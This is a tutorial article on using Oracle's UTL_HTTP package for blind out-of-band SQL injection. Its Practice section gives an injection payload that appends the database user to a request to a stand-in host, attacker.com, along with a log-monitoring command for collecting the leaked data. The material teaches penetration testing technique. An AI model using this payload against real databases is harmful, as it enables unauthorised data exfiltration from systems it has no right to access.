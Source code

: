 ```yaml
---
title: Exploiting UTL_HTTP for SQL Injection in Oracle
description: Learn how to exploit Oracle's UTL_HTTP for blind SQL injection attacks,
  using out-of-band methods for data exfiltration.
keywords:
- UTL_HTTP
- Oracle
- blind SQL injection
- out-of-band
- data exfiltration
- HTTP requests
- Oracle SQL injection
---
```


# UTL_HTTP

## Context

In this article, we explore how to exploit Oracle's UTL_HTTP package for blind out-of-band SQL injection attacks. Familiarity with HTTP requests, database functions, and Oracle SQL injection is assumed. The goal is to exfiltrate data from an Oracle database by leveraging the UTL_HTTP package, which allows database interactions with external web services. This type of injection is particularly useful when direct database responses to injected queries are not accessible.

## Theory

### UTL_HTTP Functionality in Oracle

UTL_HTTP is a PL/SQL package within Oracle databases that enables the execution of HTTP requests. This package is intended to facilitate communication between the database and external web services, allowing the database to send HTTP requests to specified URLs. While designed for legitimate purposes, UTL_HTTP can be exploited for malicious data exfiltration in the context of SQL injection attacks.

The vulnerability arises from the ability to craft SQL injection payloads that issue HTTP requests from the database. These requests can contain sensitive data, redirecting it to an attacker-controlled server for unauthorized access.

### Blind Out-of-Band SQL Injection

Blind out-of-band SQL injection is a technique used when direct feedback from injected queries is not possible. By leveraging side channels, attackers can extract data indirectly. The process involves crafting payloads that initiate actions outside the database, such as HTTP requests to an external server controlled by the attacker.

An essential requirement for this attack is that the vulnerable Oracle database has access to external servers and can execute HTTP requests via UTL_HTTP. By injecting payloads that include sensitive database information in HTTP query parameters or paths, an attacker can extract data without receiving direct database responses.

## Practice

### Exploiting UTL_HTTP for Blind Out-of-Band SQL Injection

These steps guide you through exploiting UTL_HTTP to achieve data exfiltration when a direct response from the database is unavailable:

- **Identify a Vulnerable SQL Query**: Begin by locating an Oracle SQL query that includes access to the UTL_HTTP package. This query should be injectable and capable of issuing HTTP requests through UTL_HTTP.

- **Inject the Payload**: Use the following command to craft and inject a SQL payload that retrieves sensitive data.

    ```sql
    SELECT UTL_HTTP.REQUEST('http://attacker.com/'||(SELECT user FROM dual)) FROM dual;
    ```

  This payload sends an HTTP request to `http://attacker.com/`, appending the result of `(SELECT user FROM dual)` to the URL. The query retrieves the current database user, leaking this information to the attacker's server.

- **Monitor Attack Server Logs**: Set up an HTTP server on the attacker's side and monitor the access logs for incoming requests. This can be achieved using tools like Netcat or a simple web server setup.

    ```bash
    tail -f /var/log/httpd/access_log
    ```

  As the injected SQL executes, the Oracle database sends HTTP requests to `http://attacker.com/`, which appear in the server logs.

- **Extract Data from Logs**: Analyze the HTTP server logs to collect the leaked data. Each request may contain parts of the database information exfiltrated from the Oracle system.

#### Result

Executing the above steps allows an attacker to exfiltrate sensitive data from an Oracle database by leveraging the UTL_HTTP package in a blind out-of-band SQL injection attack. The data flows through HTTP requests to an attacker's server without requiring direct query results.

## Tools

- **Oracle SQL*Plus**: For executing SQL commands against the Oracle database.
- **Netcat**: Useful for setting up a simple server to catch incoming HTTP requests.
- **Wireshark**: Can be used for further network traffic analysis. 

By following these steps, a skilled practitioner can effectively exploit UTL_HTTP to exfiltrate confidential information from an Oracle database. The use of side channels like HTTP requests represents a powerful technique in the arsenal of offensive cybersecurity methods.